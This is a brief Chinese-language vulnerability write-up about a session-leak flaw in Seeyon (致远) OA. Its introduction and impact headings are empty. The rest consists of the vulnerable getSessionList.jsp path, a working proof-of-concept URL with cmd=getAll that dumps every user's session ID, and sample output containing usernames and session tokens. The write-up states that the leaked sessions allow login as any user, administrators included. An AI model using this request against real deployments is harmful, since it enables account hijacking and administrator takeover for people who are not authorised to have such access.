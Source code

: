 ```yaml
---
title: "致远OA Session泄漏漏洞"
id: zhfly3345
---
```


# 致远OA Session泄漏漏洞

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

##### 漏洞位置:

```
http://www.0-sec.org/yyoa/ext/https/getSessionList.jsp 
```

##### 漏洞详情:

```
当cmd参数为getAll时，便可获取到所有用户的SessionID利用泄露的SessionID即可登录该用户，包括管理员 
```

##### 请求方式:

```
Get 
```

##### POC:

```
http://www.0-sec.org/yyoa/ext/https/getSessionList.jsp?cmd=getAll 
```

##### 回显内容

```
weiph 9EA4F8832FA1C9BA99E3D13E2F01CAF7zhaozy F9244E7F1B8C39BB8919FAE8E19ED16A 
```